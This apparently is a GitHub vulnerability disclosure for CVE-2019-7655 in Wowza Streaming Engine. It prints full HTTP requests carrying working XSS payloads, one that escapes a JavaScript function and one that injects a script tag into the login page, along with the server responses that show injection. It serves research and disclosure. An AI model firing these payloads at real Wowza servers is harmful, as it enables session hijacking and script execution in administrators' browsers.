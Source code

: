 # CVE-2019-7655-XSS-Wowza
Wowza Streaming Engine 4.7.7 and 4.7.8 suffers from multiple authenticated XSS vulnerabilities via the (1) customList%5B0%5D.value field in enginemanager/server/serversetup/edit_adv.htm of the Server Setup configuration or the (2) host field in enginemanager/j_spring_security_check of the login form.


### XSS(1)
User input is used inside a javascript function. By crafting a special payload, it is possible to alter the function and inject malicious content without breaking functionality.

<br />
By sending the following payload:

```
POST /enginemanager/server/serversetup/edit_adv.htm HTTP/1.1
Host: 172.17.60.171:8088
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://172.17.60.171:8088/enginemanager/Home.htm
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 383
Cookie: JSESSIONID=2bd567a3c22e0d2d7b4fdb9f6b935c48; lastMangerHost=http%3A//localhost%3A8087; showRightRail=true; lastTab=Advanced; DoNotShowFTU=true
Connection: close

vhost=_defaultVHost_&advSection=Custom&customList%5B0%5D.documented=false&customList%5B0%5D.enabled=true&customList%5B0%5D.type=String&customList%5B0%5D.sectionName=Server&customList%5B0%5D.section=%2FRoot%2FServer&customList%5B0%5D.name=asdasd&customList%5B0%5D.removed=false&customList%5B0%5D.value=asala";} alert("XSS ServerSetup"); if("true") { var a = "&advPath=%2FRoot%2FServer
```

<br />
The initTableDataProperties() function gets injected with malitious code:

```
HTTP/1.1 200 OK Server: Winstone Servlet Engine v1.0.5 Content-Type: text/html;charset=UTF-8 Connection: Close Date: Tue, 22 Jan 2019 13:34:59 GMT X-Powered-By: Servlet/2.5 (Winstone/1.0.5) Content-Language: en 
***TRUNCATED***
<script>
var tblDataProperties = new Array();
var tblIdxProperties=0;

initTableDataProperties();
updateTableProperties();

function initTableDataProperties()
{
	
		if("true") 
		{
			var newItem = new Object();
			newItem.orgIdx = tblIdxProperties++;
			newItem.added=false;
			newItem.removed="false"==="true";
			newItem.enabled="true"==="true";
			newItem.name="asdasd";
			newItem.value="asala";} alert("XSS ServerSetup"); if("true") { var a = "";
			newItem.type="String";
			newItem.section="/Root/Server";
			newItem.sectionName="Server";
			newItem.documented="false"==="true";
			newItem.uiBooleanValue="false"==="true";
			tblDataProperties.push(newItem);
		}
		
	
}
***TRUNCATED***
```

<br />
The injected code runs in the client browser:
<img src="Wowza-XSS(1).png">



### XSS(2)

<img src="Wowza-XSS(2)1.png">

Request:
```
POST /enginemanager/j_spring_security_check?wowza-page-redirect= HTTP/1.1
Host: 192.168.1.180:8088
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.1.180:8088/enginemanager/login.htm
Cookie: JSESSIONID=324c96d4de48fedbc282e9718f35f56d; DoNotShowFTU=true; lastMangerHost=http%3A//http%3A//192.168.1.180%3A8088%3Cscript%3Ealert%28%22XSS%22%29%3C/script%3E; showRightRail=true; lastTab=Basic
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 167

wowza-page-redirect=&j_username=ffff&j_password=ffff&authType=digest&host=http%3A%2F%2Fhttp%3A%2F%2F192.168.1.180%3A8088%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E
```

Response:
```
HTTP/1.1 200 OK 
Server: Winstone Servlet Engine v1.0.5 
Content-Type: text/html;charset=UTF-8 
Connection: Close Date: Sun, 27 Jan 2019 22:31:56 GMT 
X-Powered-By: Servlet/2.5 (Winstone/1.0.5) 
Content-Language: en 
***TRUNCATED***
			Sign In
	

				</h2>
				
					<div id="loginError" class="alert alert-danger"
						style="word-wrap: break-word">
						<!-- Your username or password is incorrect, please try again.
			<br /> Caused : -->
						Wowza Streaming Engine Manager could not connect to the Wowza Streaming Engine service(http://http://192.168.1.180:8088<script>alert("XSS")</script>). Verify that the Wowza Streaming Engine service has started and is running.
					</div>

***TRUNCATED***

```

<br />
<img src="Wowza-XSS(2)2.png">
